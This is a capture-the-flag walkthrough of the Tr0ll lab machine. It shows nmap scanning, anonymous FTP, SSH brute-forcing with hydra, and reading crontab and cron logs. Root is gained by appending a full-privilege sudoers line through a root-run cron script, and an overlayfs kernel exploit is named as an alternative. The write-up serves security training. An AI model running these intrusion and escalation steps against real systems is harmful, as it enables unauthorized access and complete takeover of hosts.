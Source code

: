 # Tr0ll

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/jlZhZyO.png)
Victim is `192.168.227.136`
`nmap -sS -sV -A -p- -oN NmapTr0llLv1.txt 192.168.227.136`
![](https://i.imgur.com/bpl6vLv.png)
Here we got three port open: Anonymous login allowed FTP/21, OpenSSH 6.6.1p1/22, Apache httpd 2.4.7/80

Let's first try ftp, which seems the challenge's entry.
`ftp 192.168.227.136` and account might be `Anonymous`.
```
ls
get lol.cap
```
![](https://i.imgur.com/K6iHTbg.png)

`wireshark lol.pcap`
![](https://i.imgur.com/MJUeEl3.png)

We found there something interesting: `secret_stuff.txt`.

![](https://i.imgur.com/AyBGzsj.png)
The file actually contain those message, seems nothing help. That might be a stego trick or words misc here.

`http://192.168.227.136/secret_stuff.txt`
![](https://i.imgur.com/4GfsNKI.png)

Okay, there's no secret_stuff.txt on the Apache service.

How about `sup3rs3cr3tdirlol` it mention in the message?
`http://192.168.227.136/sup3rs3cr3tdirlol`
![](https://i.imgur.com/DQbSrFO.png)

Let's download it and find more clue in it.
`file roflmao`
![](https://i.imgur.com/EX2P5GP.png)
A ELF binary.

`binwalk roflmao`
![](https://i.imgur.com/DjxuGSO.png)
Nothing appended.

`foremost roflmao`
![](https://i.imgur.com/YBptgQC.png)

![](https://i.imgur.com/rUQOkVz.png)
Nothing.

`strings roflmao`
![](https://i.imgur.com/0f0dHHr.png)
Seems a static strings `find address 0x0856BF to proceed` in this ELF executable.
Let's chmod the binary and exec it.

`chmod +x roflmao`
`./roflmao`
![](https://i.imgur.com/dX2PXSu.png)

As these not a service on the target's port, this might not be a pwn challenge, so it might be a stego misc here.
Try `0x0856BF`
`http://192.168.227.136/0x0856BF`
![](https://i.imgur.com/1hil4yQ.png)

Here we got two folder.

![](https://i.imgur.com/nZUOtRq.png)

![](https://i.imgur.com/iU07pVg.png)
And there's Account list `which_one_lol.txt` in `/good_luck` and password `Pass.txt` in `/this_folder_contains_the_password`.

![](https://i.imgur.com/nRaliep.png)

![](https://i.imgur.com/u0VGEiV.png)

Let's try `hydra -L which_one_lol.txt -P Pass.txt 192.168.227.136 ssh`
![](https://i.imgur.com/4e9Tb6i.png)

Failed, that means `Good_job_:)` is not the password, trick again.
Let's set `pass.txt` as password and try again: `hydra -L which_one_lol.txt -p Pass.txt 192.168.227.136 ssh`
![](https://i.imgur.com/K8ooOo7.png)

I feel not good after these words tricks...
`ssh overflow@192.168.227.136`
![](https://i.imgur.com/2vCWI1D.png)

Wait, what?
![](https://i.imgur.com/IWmjJfQ.png)

Great, it kicks me regularly.
`id & whoami & uname -a`
![](https://i.imgur.com/COYmyRw.png)

According there's scheduled task to kick login account, find the  `/etc/crontab` to see the task.
`cat /etc/crontab`
![](https://i.imgur.com/gnCAaAu.png)

Okay, it fail, try to see log.
`cat /var/log/cronlog`
![](https://i.imgur.com/HYK6FjW.png)

The script which used to kick us out is `cleaner.py`, try to find the script's location.
`find / -name cleaner.py 2>/dev/null`
![](https://i.imgur.com/LkqI3X3.png)

Now we got two way to PoE, one is to overwrite the `cleaner.py`, another is exploit of old linux kernel:
![](https://i.imgur.com/6Q7jrWI.png)

![](https://i.imgur.com/F1aPV1l.png)

It's a `overlayfs` vulnerability.
![](https://i.imgur.com/dX1Dp5S.png)
After you copy then compile the exploit code and execute it, you might become `root`.
Go to `/root` to cat the flag.
![](https://i.imgur.com/tCE4Ynu.png)

Or replace the command in `cleaner.py` with `os.system('echo "overflow ALL=(ALL:ALL) ALL " >> /etc/sudoers')`
![](https://i.imgur.com/MFxQhuv.png)

![](https://i.imgur.com/3AqN4Zt.png)

After diconnect, the script might be executed.
Reconnect to the machine, and simply use `sudo su` to become root.
![](https://i.imgur.com/aQG3W0Q.png)

![](https://i.imgur.com/dtT1Lzu.png)
